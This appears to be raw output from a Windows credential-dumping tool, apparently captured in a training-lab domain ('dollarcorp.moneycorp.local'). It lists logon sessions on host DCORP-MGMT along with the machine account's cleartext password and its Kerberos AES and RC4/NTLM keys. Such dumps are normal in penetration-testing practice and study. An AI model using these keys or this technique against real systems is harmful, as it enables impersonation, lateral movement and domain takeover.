 ```powershell
User Name         : UMFD-0
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/10/2025 9:28:46 AM
SID               : S-1-5-96-0-0

         * Username : DCORP-MGMT$
         * Domain   : dollarcorp.moneycorp.local
         * Password : 4?PhChKP(?yWE8=VM2QI13O!i*3Q?WVB"X)=>Il3=AczJ0^T!X]r&:&yG41*/$^4+EeZ07?zF2Z3:[Jd*F/z_Pp6B9XH^g$*mXIQMXY(Sc?3\A6ICrX
         * Key List :
           aes256_hmac       c71f382ea61f80cab751aada32a477b7f9617f3b4a8628dc1c8757db5fdb5076
           aes128_hmac       b3b9f96ed137fb4c079dcfe2e23f7854
           rc4_hmac_nt       0878da540f45b31b974f73312c18e754
           rc4_hmac_old      0878da540f45b31b974f73312c18e754
           rc4_md4           0878da540f45b31b974f73312c18e754
           rc4_hmac_nt_exp   0878da540f45b31b974f73312c18e754
           rc4_hmac_old_exp  0878da540f45b31b974f73312c18e754
Authentication Id : 0 ; 21242 (00000000:000052fa)
Session           : Interactive from 1
User Name         : UMFD-1
Domain            : Font Driver Host
Logon Server      : (null)
Logon Time        : 1/10/2025 9:28:46 AM
SID               : S-1-5-96-0-1

         * Username : DCORP-MGMT$
         * Domain   : dollarcorp.moneycorp.local
         * Password : 4?PhChKP(?yWE8=VM2QI13O!i*3Q?WVB"X)=>Il3=AczJ0^T!X]r&:&yG41*/$^4+EeZ07?zF2Z3:[Jd*F/z_Pp6B9XH^g$*mXIQMXY(Sc?3\A6ICrX
         * Key List :
           aes256_hmac       c71f382ea61f80cab751aada32a477b7f9617f3b4a8628dc1c8757db5fdb5076
           aes128_hmac       b3b9f96ed137fb4c079dcfe2e23f7854
           rc4_hmac_nt       0878da540f45b31b974f73312c18e754
           rc4_hmac_old      0878da540f45b31b974f73312c18e754
           rc4_md4           0878da540f45b31b974f73312c18e754
           rc4_hmac_nt_exp   0878da540f45b31b974f73312c18e754
           rc4_hmac_old_exp  0878da540f45b31b974f73312c18e754

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : DCORP-MGMT$
Domain            : dcorp
Logon Server      : (null)
Logon Time        : 1/10/2025 9:28:45 AM
SID               : S-1-5-18

         * Username : dcorp-mgmt$
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       b607d794f87ca117a14353da0dbb6f27bbe9fed4f1ce1b810b43fbb9a2eab192
           rc4_hmac_nt       0878da540f45b31b974f73312c18e754
           rc4_hmac_old      0878da540f45b31b974f73312c18e754
           rc4_md4           0878da540f45b31b974f73312c18e754
           rc4_hmac_nt_exp   0878da540f45b31b974f73312c18e754
           rc4_hmac_old_exp  0878da540f45b31b974f73312c18e754
```
